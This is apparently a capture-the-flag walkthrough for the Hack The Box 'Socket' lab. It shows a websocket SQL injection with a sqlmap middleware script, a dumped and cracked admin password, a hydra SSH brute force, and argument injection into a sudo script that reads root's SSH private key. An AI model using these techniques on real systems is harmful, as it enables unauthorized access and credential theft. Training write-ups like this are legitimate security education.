


<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.129.1.88 qreader.htb`

****nmap scan: TCP/IP****

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://qreader.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
5789/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 26 Mar 2023 02:47:04 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 26 Mar 2023 02:47:05 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 26 Mar 2023 02:47:23 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 26 Mar 2023 02:47:06 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data
```

* Port 80 is redirecting to `qreader.htb` hostname and running a flask webapp.
* port 5789 is running `Python/3.10 websockets/10.4` a websocket server.
* There are few functionality and downloadable files.

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-qreader.htb.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-qreader.htb.png"><i>Click for full image</i></a></div>
</div>

<!--  -->

* We can generate qrcode png image using `/embed` Embed functionality.
* we can read qrcode using `/reader` Read functionality.
* There is a `/report` endpoint to report a issue.


* There are 2 downloadable executable files `/download/linux` `/download/windows`.
  * Downloaded files are zip files contain executable binaries.
* Binary has same functionalities like the webapp.
  * but there are two options in "About" >> "Version" and "Updates" that are returning "[ERROR] Connection Error!" message.

# Foothold

## Python byte-codes de-compile

* Binary is created from python source.
* we can use like [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract python byte-code from the binary.

Application is written in python 3.10

```bash
❯ file qreader.pyc
qreader.pyc: Byte-compiled Python module for CPython 3.10, timestamp-based, .py timestamp: Thu Jan  1 00:00:00 1970 UTC, .py size: 0 bytes
```

So, we can use [pycdc](https://github.com/zrax/pycdc)[^](https://x00tex.github.io/posts/unicode/#python-byte-codes-decompile) to translate compiled Python byte-code back into readable Python source code.

And with that we get source code for the app.

```py
❯ pycdc qreader.pyc
# Source Generated with Decompyle++
# File: qreader.pyc (Python 3.10)

import cv2
import sys
import qrcode
import tempfile
import random
import os
from PyQt5.QtWidgets import *
from PyQt5 import uic, QtGui
import asyncio
import websockets
import json
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
icon_path = './icon.png'

def setup_env():
Unsupported opcode: WITH_EXCEPT_START
    global tmp_file_name
    pass
# WARNING: Decompyle incomplete


class MyGUI(QMainWindow):
    
    def __init__(self = None):
        super(MyGUI, self).__init__()
        uic.loadUi(tmp_file_name, self)
        self.show()
        self.current_file = ''
        self.actionImport.triggered.connect(self.load_image)
        self.actionSave.triggered.connect(self.save_image)
        self.actionQuit.triggered.connect(self.quit_reader)
        self.actionVersion.triggered.connect(self.version)
        self.actionUpdate.triggered.connect(self.update)
        self.pushButton.clicked.connect(self.read_code)
        self.pushButton_2.clicked.connect(self.generate_code)
        self.initUI()

    
    def initUI(self):
        self.setWindowIcon(QtGui.QIcon(icon_path))

    
    def load_image(self):
        options = QFileDialog.Options()
        (filename, _) = QFileDialog.getOpenFileName(self, 'Open File', '', 'All Files (*)')
        if filename != '':
            self.current_file = filename
            pixmap = QtGui.QPixmap(self.current_file)
            pixmap = pixmap.scaled(300, 300)
            self.label.setScaledContents(True)
            self.label.setPixmap(pixmap)
            return None

    
    def save_image(self):
        options = QFileDialog.Options()
        (filename, _) = QFileDialog.getSaveFileName(self, 'Save File', '', 'PNG (*.png)', options, **('options',))
        if filename != '':
            img = self.label.pixmap()
            img.save(filename, 'PNG')
            return None

    
    def read_code(self):
        if self.current_file != '':
            img = cv2.imread(self.current_file)
            detector = cv2.QRCodeDetector()
            (data, bbox, straight_qrcode) = detector.detectAndDecode(img)
            self.textEdit.setText(data)
            return None
        None.statusBar().showMessage('[ERROR] No image is imported!')

    
    def generate_code(self):
        qr = qrcode.QRCode(1, qrcode.constants.ERROR_CORRECT_L, 20, 2, **('version', 'error_correction', 'box_size', 'border'))
        qr.add_data(self.textEdit.toPlainText())
        qr.make(True, **('fit',))
        img = qr.make_image('black', 'white', **('fill_color', 'back_color'))
        img.save('current.png')
        pixmap = QtGui.QPixmap('current.png')
        pixmap = pixmap.scaled(300, 300)
        self.label.setScaledContents(True)
        self.label.setPixmap(pixmap)

    
    def quit_reader(self):
        if os.path.exists(tmp_file_name):
            os.remove(tmp_file_name)
        sys.exit()

    
    def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

    
    def update(self):
        response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            msg = '[INFO] ' + data['message']
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

    __classcell__ = None


async def ws_connect(url, msg):
Unsupported opcode: GEN_START
    pass
# WARNING: Decompyle incomplete


def main():
    (status, e) = setup_env()
    if not status:
        print('[-] Problem occured while setting up the env!')
    app = QApplication([])
    window = MyGUI()
    app.exec_()

if __name__ == '__main__':
    main()
    return None
```

SO, there is a another vHost `ws.qreader.htb` which is connecting to websocket on port "5789", and "Version" and "Updates" option is evaluating it,

and we can use python websocket-client to direct interact with the websocket server.

```py
import websockets
import asyncio
import json
import sys

url = "ws://ws.qreader.htb:5789/version"

async def lets_talk():
    async with websockets.connect(url) as ws:
        payload = json.dumps({"version": sys.argv[1]})
        await ws.send(payload)
        msg = await ws.recv()
        print(f"> {msg}")


if __name__ == "__main__":
    try:
        asyncio.get_event_loop().run_until_complete(lets_talk())
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
    except websockets.exceptions.ConnectionClosed as e:
        print(e)
```

### Unintended

Initially i used the burp with `proxychains` to intercept the binary traffic and found the things that found from de-compiling it.

For that, set burp proxy in `proxychains` config file `/etc/proxychains4.conf`

```bash
... [snip] ...

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4     127.0.0.1 9050

http 127.0.0.1 8080
```

then run the binary with `proxychains4`

```bash
proxychains4 ./qreader
```

And when we click on any options in "About" >> "Version" and "Updates" it's traffic logged in the burp history.





## Websocket SQLi using sqlmap

`/version` endpoint is vulnerable for sql injection.

```bash
❯ python websocket-script.py "\" UNION SELECT 1,2,3,4-- -"
> {"message": {"id": 1, "version": 2, "released_date": 3, "downloads": 4}}
```

We can use `sqlmap` to automate sql injection using a middleware server.

Here is a simple python server that acts as a middleware server for `sqlmap`. The logic can vary based on the web socket response. This script is mostly focused on the current environment.
```py
from http.server import BaseHTTPRequestHandler, HTTPServer
import websockets
import asyncio
import json

ws_server = "ws://ws.qreader.htb:5789/version"

def send_ws(data):

    async def lets_talk():
        async with websockets.connect(ws_server) as ws:
            payload = json.dumps({"version": data})
            await ws.send(payload)
            msg = await ws.recv()
            if msg:
                # print(f"> {msg}")
                return f"> {msg}"

    try:
        msg = asyncio.get_event_loop().run_until_complete(lets_talk())
        return msg
    except websockets.exceptions.ConnectionClosed as e:
        # print(e)
        return 'ConnectionClosedError'  #This error means the sql server behind the websocket is crashed.

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):

    def do_POST(self):
        if self.path == '/forward':
            content_length = int(self.headers['Content-Length'])
            content_type = self.headers['Content-Type']

            # Parse the POST data as JSON
            if 'application/json' in content_type:
                post_data = json.loads(self.rfile.read(content_length))
            else:
                # Return error if content type is not JSON
                self.send_error(400, 'Invalid content type')
                return

            # Extract the 'payload' parameter from the JSON object
            mw_data = post_data.get('payload')
            ws_resp = send_ws(mw_data)

            # If debug flag is set, print out the submitted payload to the console
            if self.server.debug:
                print(mw_data)  # Print data recieved on the middleware server
                print(ws_resp)  # Print response recieved from websocket server

            # Add logic based on the ws server to send a response back to the client

            if ws_resp:
                self.send_response(200)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
                self.wfile.write(ws_resp.encode())
            else:
                self.send_response(500)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
            return

if __name__ == '__main__':
    httpd = HTTPServer(('127.0.0.1', 8080), SimpleHTTPRequestHandler)
    print("[+] Server started on 127.0.0.1:8080")
    httpd.debug = False
    httpd.serve_forever()
```

And with the prior knowledge of the sql injection, we can narrow down the sqlmap execution.
```bash
❯ sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch --technique=U --dbms=sqlite --prefix='"' --union-cols=4
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:37:34 /2023-03-26/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[15:37:35] [INFO] testing connection to the target URL
[15:37:36] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.11.2')
[15:37:36] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[15:37:37] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[15:37:39] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[15:37:39] [INFO] testing 'Generic UNION query (NULL) - 4 to 4 columns (custom)'
[15:37:42] [INFO] (custom) POST parameter 'JSON #1*' is 'Generic UNION query (NULL) - 4 to 4 columns (custom)' injectable
[15:37:42] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 8 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: {"payload": "" UNION ALL SELECT NULL,NULL,NULL,CHAR(113,122,98,120,113)||CHAR(102,116,116,87,78,120,86,107,107,103,118,77,68,119,111,119,66,119,85,77,76,81,68,89,98,108,90,66,108,69,106,72,97,69,82,83,70,108,116,103)||CHAR(113,107,98,122,113)-- KVcK"}
---
[15:37:51] [INFO] testing SQLite
[15:37:52] [INFO] confirming SQLite
[15:37:54] [INFO] actively fingerprinting SQLite
[15:37:55] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:37:55] [INFO] fetched data logged to text files under '/home/poorduck/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 15:37:55 /2023-03-26/
```

After dumping database using sqlmap, found a user "admin" and password hash, and found it's clear text password from https://crackstation.net/

```bash
Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+
```

**[+] Creds `admin:denjanjade122566`**

But there is a one more catch, we can not use these creds directly in ssh.

There is a table in the database,

```bash
Table: answers
[2 entries]
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
```

And this table contains the real name of the admin **Thomas Keller**, and we can use permutation to generate usernames with it.

there are multiple tools to do this.
* https://github.com/urbanadventurer/username-anarchy
* https://github.com/benbusby/namebuster


```bash
./username-anarchy Thomas Keller > names.txt

❯ hydra -L names.txt -p 'denjanjade122566' qreader.htb ssh -f
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-27 08:30:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
[DATA] attacking ssh://qreader.htb:22/
[22][ssh] host: qreader.htb   login: tkeller   password: denjanjade122566
[STATUS] attack finished for qreader.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-27 08:30:22
```

**ssh creds: `tkeller:denjanjade122566`**

# Privesc

## pyinstaller file read

User "tkeller" can run a bash script `/usr/local/sbin/build-installer.sh` as any user without any password.
```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

```bash
tkeller@socket:~$ cat /usr/local/sbin/build-installer.sh
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

This script is running `pyInstaller` as root.
* PyInstaller is a tool for creating stand-alone executable files from Python scripts, including all necessary dependencies.

In the script we can inject command flags, and there is a flag in `pyinstaller` command with can include file in the binary and we can evaluate these files inside the python script. 

Here we created a script that will read the file "id_rsa" from current working directory if execute as script but If the script is run as a bundled executable, it uses the `_MEIPASS` attribute to get the base path instead.

The `_MEIPASS` attribute is a variable used by PyInstaller to store the path to the temporary folder where the executable extracts its bundled files at runtime. When a PyInstaller-generated executable is run, it creates a temporary folder and extracts all the necessary files (including the Python interpreter, the script, and any bundled libraries or data files) into that folder. The `_MEIPASS` attribute is set to the path of this temporary folder, so that the script can access its bundled files at runtime.

This attribute is used in PyInstaller-generated scripts to help locate resources that are included in the executable using the `--add-data` or `--add-binary` options. These options allow us to specify additional files that should be included in the executable and extracted at runtime. When you use these options, PyInstaller stores the files inside the executable in a way that they can be accessed using the `_MEIPASS` attribute.

```py
cat > script.py << EOF
import os

if getattr(sys, 'frozen', False):
    # If the script is run as a bundled executable, use the executable's path as the base path
    base_path = sys._MEIPASS
else:
    # If the script is run from the source code, use the script's directory as the base path
    base_path = os.path.abspath(os.path.dirname(__file__))

textfile_path = os.path.join(base_path, 'id_rsa')
with open(textfile_path, 'r') as f:
    textfile_contents = f.read()

print(textfile_contents)
EOF
```

```bash
sudo /usr/local/sbin/build-installer.sh make "--add-data /root/.ssh/id_rsa:. script.py"

/opt/shared/dist/qreader
```

